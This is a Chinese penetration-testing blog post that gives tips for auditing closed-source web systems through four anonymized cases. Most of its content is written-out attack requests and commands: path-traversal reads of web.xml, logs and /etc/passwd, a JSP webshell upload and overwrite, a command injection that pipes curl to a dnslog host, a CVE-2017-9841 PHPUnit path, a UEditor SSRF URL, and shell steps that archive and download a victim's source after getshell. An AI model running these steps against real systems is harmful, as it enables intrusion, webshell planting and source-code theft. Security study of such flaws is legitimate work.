

```
标题: "无"源码环境下的代码审计之旅
创建: 2021-06-22
更新: 2024-02-03
```

> 从 CN-SEC 找回的旧文

---

分享一下前段时间遇到的系统无源码(不开源)的代码审计(捡漏)tips
- 任意文件读取/下载
- 在线审计
- n(1)day -> 0day
- getshell后 打包源码
- 是否出现常见漏洞组件或框架（编辑器/shiro/fastjson等）

---

### 案例1
- 跟着团队大哥的操作学习

发现一处文件下载的地方

```http request
GET /download?module=&method=Download&name=test.zip&filepath=doc/test.zip HTTP/1.1Host: 1.1.1.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Accept: text/html,application/xhtml+xml,application/xmlAccept-Encoding: gzip, deflate
```

burp抓包，换为post请求发现可下载任意文件

```http request
POST /download HTTP/1.1Host: 1.1.1.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Accept: text/html,application/xhtml+xml,application/xmlAccept-Encoding: gzip, deflate

module=&method=Download&name=test.zip&filepath=../webapps/WEB-INF/web.xml
```

读取日志文件判断class文件的位置

```http request
POST /download HTTP/1.1Host: 1.1.1.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)Accept: text/html,application/xhtml+xml,application/xmlAccept-Encoding: gzip, deflate

module=&method=Download&name=test.zip&filepath=../logs/catalina.2021-xx-xx.log
```

下载class文件分析审计

在/download路由下的servlet存在上传文件和更新文件的操作

首先上传一个空文件到web目录：

```http request
POST /download HTTP/1.1Host: 1.1.1.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Accept: text/html,application/xhtml+xml,application/xmlAccept-Encoding: gzip, deflate

module=&method=upload&txtFile_Name=x.jsp&home=/&filepath=../webapps/
```

再更新文件内容为webshell:

```http request
POST /download HTTP/1.1Host: 1.1.1.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Accept: text/html,application/xhtml+xml,application/xmlAccept-Encoding: gzip, deflate

module=&method=updateContent&home=/&filepath=../webappsdebugx.jsp&content=xxxxxx()
```

### 案例2

某系统存在弱口令+后台RCE，打包源码

```shell
# 打包源码
tar -zcvf /usr/abc/www/xx.tar.gz /usr/abc/www/
# 下载源码 
http://www.xxx.com/xx.tar.gz
# 删除压缩包
rm -f xx.tar.gz
```

下载后进行代码审计
- 任意文件下载 1枚
- 后台RCE 1枚

**任意文件下载**



很明显的漏洞点，可用../进行目录穿越

```
/?c=backup&a=download&file=../../../../../../../../../etc/passwd
```


**后台RCE**


同样，也是明显的漏洞点，直接拼接了没经过滤的参数destip

```
/?c=maintain&a=iptrace

post:destip=127.0.0.1|curl q2tsgk.dnslog.cn
```


### 案例3

某系统使用了存在漏洞的框架

通过目录扫描/探测


发现了该系统存在路径

```
vendor/phpunit/src/Util/PHP/eval-stdin.php
```

瞬间想起了之前复现过的漏洞
- 框架：PHPUnit
- 编号：CVE-2017-9841

直接用工具打一波


提取指纹，看看互联网案例


影响范围还行，拿shell, 借用源码，继续审计。


### 案例4

某oa系统使用了存在漏洞的编辑器

使用nday拿到shell, 打包源码下载，然后进行代码审计。

在其目录机构中发现了ueditor


```
/ueditor/jsp/controller.jsp?action=catchimage&source[]=http://dnslog.cn/test.jpg
```

找了张当时刚捡到漏洞并验证的截图


...

---

欢迎一'点'三连（点分享+点赞+点在看）


